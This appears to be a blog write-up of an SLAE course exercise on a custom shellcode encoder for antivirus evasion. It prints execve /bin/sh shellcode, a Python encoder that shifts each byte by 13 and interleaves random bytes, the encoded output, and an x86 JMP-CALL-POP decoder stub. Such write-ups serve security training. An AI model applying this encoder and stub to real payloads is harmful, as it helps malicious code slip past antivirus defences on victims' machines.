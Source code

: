```yaml
---
layout: post
title: SLAE 4 - Custom Encoder
date:   2019-02-28
categories: [SLAE, Assembly]
---
```

## Creating a custom encoder

A custom encoder is used in order to evade antivirus detection.  If a signature is made to detect a specific portion of code, then an encoder will obfuscate the code so that it does not recognize it as the known suspicious/malicious behavior.

Our steps are:
1. Decide on an encoding scheme to obfuscate the shellcode
2. Implement an encoder (in Python) that outputs the encoded shellcode
3. Create a decoding stub (in assembly) that manipulates the shellcode, in memory, and then hands off execution to the original shellcode

The trick here is that we will need a way to grab the memory address of the shellcode which is dynamic.  There is a known technique that we learned in the SLAE course that uses the JMP-CALL-POP instruction combination to obtain the shellcode's address during runtime.  
```asm
_start:
    jmp short get_sc
    
decode_stub:
    pop esi
    ...
    
get_sc:
    call decode_stub
    shellcode: db 0x3c,..... 
```
When we jump to get_sc, our two instructions are a call followed by our shellcode variable.  When the call is made, the next instruction's address is pushed to the stack so that when the call returns, we have the location to continue execution.  Since our first instruction when we land at our jump (decode_stub) is a pop instruction, it pops the address of our shellcode into the register of our choice!

One big note here is that the jmp short is used in order to prevent NULL bytes!  A post about this little trick that goes in to great detail can be found here:

https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html

With that technique described.. it's time to start deciding on an encoding scheme.

The SLAE course provides an example insertion encoding scheme.  I decided to use this idea and add another encoding idea to it.  The encoder will rot-13 the shellcode and insert 1 random byte after each byte of shellcode.

as an example,:

0x11,0x11,0x11,0x11

will become something similar to:

0x1E,0xCE,0x1E,0xA2,0x1E,0x24,0x1E,0xE9,0xbb,0xbb

In order to detect the end of our shellcode, we will add 0xbb,0xbb to the end.  This idea was suggested in the course video as well.  This way we don't need to hardcode the length and can cmp to 0xbb then jump out if we have found it.

Our encoder is written in Python and we are encoding the shellcode "execve-stack.nasm" from the provided course materials:
```python
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

for b in bytearray(shellcode):

	encoded1 += '\\x'
	encoded1 += '%02x' % ((b+13)%256)   # add rot-13'd shellcode

# 0xfa was causing issues when compiled, create check to avoid using it. Can add values to the array initialization if more become an issue
	bad_vals = [0xfa]
    	while True:
		rand = random.randint(1,256)
        	if rand not in bad_vals:
	        	break
            
	encoded1 += '\\x%02x' % rand        # insert random byte

	encoded2 += '0x'
	encoded2 += '%02x,' % ((b+13)%256)  # add rot-13'd shellcode
	encoded2 += '0x%02x,' % rand        # insert random byte

encoded1 += '\\xbb\\xbb'                # add our detection byte
encoded2 += '0xbb,0xbb'


print(encoded1)
print(encoded2)

print('Length: %d' % len(bytearray(shellcode)))
```
So we have 2 different forms of output, our usual "\x" bytes and the 0x, comma separated list which will be used in the assembly code.

Running this we receive the output:
```
0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
We will save this for later.. 

Now to create the decoder:

We will need to set up our skeleton which will include the jmp-call-pop at the start:
```asm
global _start

section .text

_start:
    jmp short call_shellcode
    
decoder:
    pop esi

call_shellcode:
    call decoder
    ShellCode: db 0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
The steps we will take in the main decode loop are:
1. Grab next byte to decode
2. Check for our tail (0xbb,0xbb). we check for both in a row just in case we run in to a single instance of 0xbb
3. If tail found, pass execution
4. Decode ROT-13 for the byte
5. Place decoded byte into proper position
6. Increase counters (our pointer to insertion location, and our pointer to the next encoded byte)
7. Loop

```asm
decoder:
	pop esi			; end of jmp-call-pop
	lea edi, [esi]		; set up first insertion byte address
	xor eax, eax
	xor ebx, ebx
decode:
	mov bl, byte [esi + eax]	; sc addr + insert count - this selects the next encoded shellcode byte
	cmp bl, 0xbb			; check for first byte of shellcode tail
	jnz cont
	cmp byte [esi + eax + 1], 0xbb	; check for 2nd byte of shellcode tail
	jz Shellcode			; end of shellcode - hand off execution
cont:
	sub bl, 13			; decode rot-13
	mov byte [edi], bl		; replace byte with the decoded byte
	inc edi				; increase edi to point to next byte to replace
	add al, 2			; increase al by 2 to the next inserted byte
	jmp short decode		; start loop over

call_shellcode:
```
bl stores \[esi + eax\], which translates to \[shellcode_addr + insertion byte counter\].  Since we are alternating between shellcode bytes and random inserted bytes, we increase al by 2 for each iteration.  This lets us skip the inserted byte and grab each byte of the encoded shellcode.

We then subtract 13 from the encoded byte value in order to obtain the original shellcode byte.  Then we move it into \[edi\]. EDI is our pointer for where the next byte of decoded shellcode should go.  
